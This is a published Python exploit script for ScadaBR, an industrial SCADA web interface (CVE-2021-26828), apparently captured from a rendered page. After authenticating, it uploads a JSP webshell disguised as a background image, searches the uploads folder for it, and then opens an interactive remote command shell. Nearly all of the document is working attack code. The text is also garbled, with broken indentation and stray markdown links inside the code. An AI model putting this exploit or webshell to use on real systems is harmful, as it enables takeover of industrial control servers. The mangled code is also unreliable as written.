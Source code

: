 EXP
---

    #!/usr/bin/python

    # Exploit Title: Authenticated Arbitrary File Upload (Remote Code Execution)
    # Google Dork: N/A
    # Date: 03/2021
    # Exploit Author: Fellipe Oliveira
    # Vendor Homepage: https://www.scadabr.com.br/
    # Software Link: https://www.scadabr.com.br/
    # Version: ScadaBR 1.0, ScadaBR 1.1CE and ScadaBR 1.0 for Linux
    # Tested on: Windows7, Windows10
    # CVE : CVE-2021-26828

    import requests,sys,time


    if len(sys.argv) <=4:
        print('[x] Missing arguments ... ')
        print('[>] Usage: python WinScada_RCE.py <TargetIp> <TargetPort> <User> <Password>')
        print('[>] Example: python WinScada_RCE.py 192.168.1.24 8080 admin admin')
        sys.exit(0)
    else:
        time.sleep(1)


    host = sys.argv[1]
    port = sys.argv[2]
    user = sys.argv[3]
    passw = sys.argv[4]

    flag = False
    LOGIN = 'http://'+host+':'+port+'/ScadaBR/login.htm'
    PROTECTED_PAGE = 'http://'+host+':'+port+'/ScadaBR/view_edit.shtm'


    banner = '''
    +-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
    |    _________                  .___     ____________________       |
    |   /   _____/ ____ _____     __| _/____ ______   ______   \      |
    |   _____  _/ ___\__  \   / __ |__  \ |    |  _/|       _/       |
    |   /        \  ___ / __ _/ /_/ | / __ \|    |   \|    |   \      |
    |  /_______  /___  >____  /____ |(____  /______  /|____|_  /      |
    |          \/     \/     \/      \/     \/       \/        \/       |
    |                                                                   |
    |    > ScadaBR 1.0 ~ 1.1 CE Arbitrary File Upload (CVE-2021-26828)  |
    |    > Exploit Author : Fellipe Oliveira            |
    |    > Exploit for Windows Systems                                  |
    +-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
    '''

    def main():
        payload = {
            'username': user,
            'password': passw
        }

        print(banner)
        time.sleep(2)

        with requests.session() as s:
          s.post(LOGIN, data=payload)
      response = s.get(PROTECTED_PAGE)

            print("[+] Trying to authenticate "+LOGIN+"...")
      if response.status_code == 200:
          print("[+] Successfully authenticated! :D~\n")
          time.sleep(2)
      else:
          print("[x] Authentication failed :(")
                sys.exit(0)

      burp0_url = "http://"+host+":"+port+"/ScadaBR/view_edit.shtm"
      burp0_cookies = {"JSESSIONID": "66E47DFC053393AFF6C2D5A7C15A9439"}
      burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "multipart/form-data; boundary=---------------------------6150838712847095098536245849", "Origin": "http://"+host+":"+port+"/", "Connection": "close", "Referer": "http://"+host+":"+port+"/ScadaBR/view_edit.shtm", "Upgrade-Insecure-Requests": "1"}
      burp0_data = "-----------------------------6150838712847095098536245849\r\nContent-Disposition: form-data; name=\"view.name\"\r\n\r\n\r\n-----------------------------6150838712847095098536245849\r\nContent-Disposition: form-data; name=\"view.xid\"\r\n\r\nGV_218627\r\n-----------------------------6150838712847095098536245849\r\nContent-Disposition: form-data; name=\"backgroundImageMP\"; filename=\"win_cmd.jsp\"\r\nContent-Type: application/octet-stream\r\n\r\n<%@ page import=\"java.util.*,java.io.*\"%>\n<%\n%>\n<HTML><BODY>\nCommands with JSP\n<FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\">\n<INPUT TYPE=\"text\" NAME=\"cmd\">\n<INPUT TYPE=\"submit\" VALUE=\"Send\">\n</FORM>\n<pre>\n<%\nif (request.getParameter(\"cmd\") != null) {\n    out.println(\"Command: \" + request.getParameter(\"cmd\") + \"<BR>\");\n    Process p;\n    if ( System.getProperty(\"os.name\").toLowerCase().indexOf(\"windows\") != -1){\n        p = Runtime.getRuntime().exec(\"cmd.exe /C \" + request.getParameter(\"cmd\"));\n    }\n    else{\n        p = Runtime.getRuntime().exec(request.getParameter(\"cmd\"));\n    }\n    OutputStream os = p.getOutputStream();\n    InputStream in = p.getInputStream();\n    DataInputStream dis = new DataInputStream(in);\n    String disr = dis.readLine();\n    while ( disr != null ) {\n    out.println(disr);\n    disr = dis.readLine();\n    }\n}\n%>\n

\\n

</BODY>
</HTML>
\\n\\r\\n-----------------------------6150838712847095098536245849\\r\\nContent-Disposition: form-data; name=\\"upload\\"\\r\\n\\r\\nUpload image\\r\\n-----------------------------6150838712847095098536245849\\r\\nContent-Disposition: form-data; name=\\"view.anonymousAccess\\"\\r\\n\\r\\n0\\r\\n-----------------------------6150838712847095098536245849--\\r\\n"

` getdata = s.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)`

` print('[>] Attempting to upload .jsp Webshell...')`
` time.sleep(1)`
`       print('[>] Verifying shell upload...\n')`
` time.sleep(2)`
` `
` if getdata.status_code == 200:`
`     print('[+] Upload Successfuly!')`
`     `
`     for num in range(1,500):      `
`       PATH = '`[`http://'+host+`](http://'+host+)`':'+port+'/ScadaBR/uploads/%d.jsp' % (num)`
`               find = s.get(PATH)`

`               if find.status_code == 200:  `
`                   print('[+] Webshell Found in: `[`http://'+host+`](http://'+host+)`':'+port+'/ScadaBR/uploads/%d.jsp' % (num))`
`       flag = True`
`                   print('[>] Spawning fake shell...') `
`                   time.sleep(3)                    `

`         while flag:`
`                       param = raw_input("# ")`
`                 burp0_url = "`[`http://"+host+`](http://"+host+)`":"+port+"/ScadaBR/uploads/%d.jsp?cmd=%s" % (num,param)`
`                       burp0_cookies = {"JSESSIONID": "4FCC12402B8389A64905F4C8272A64B5"}`
`                       burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Referer": "`[`http://"+host+`](http://"+host+)`":"+port+"/ScadaBR/uploads/%d.jsp?cmd=%s", "Upgrade-Insecure-Requests": "1"}`
`                       send = s.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)  `
`                  clean = send.text.replace('`

    ', '').replace('<FORM METHOD=', '').replace('<HTML><BODY>', '').replace('"GET" NAME="myform" ACTION="">', '').replace('Commands with JSP', '').replace('<INPUT TYPE="text" NAME="cmd">', '').replace('<INPUT TYPE="submit" VALUE="Send">', '').replace('</FORM>', '').replace('<BR>', '').replace('

', '').replace('

</BODY>
</HTML>
', '')

`     print(clean)`

`           elif num == 499:`
`                   print('[x] Webshell not Found')`
`                   `
` else:`
`     print('Reason:'+getdata.reason+' ')     `
`     print('Exploit Failed x_x')`

if __name__ == '__main__':

`   main()`

</pre>
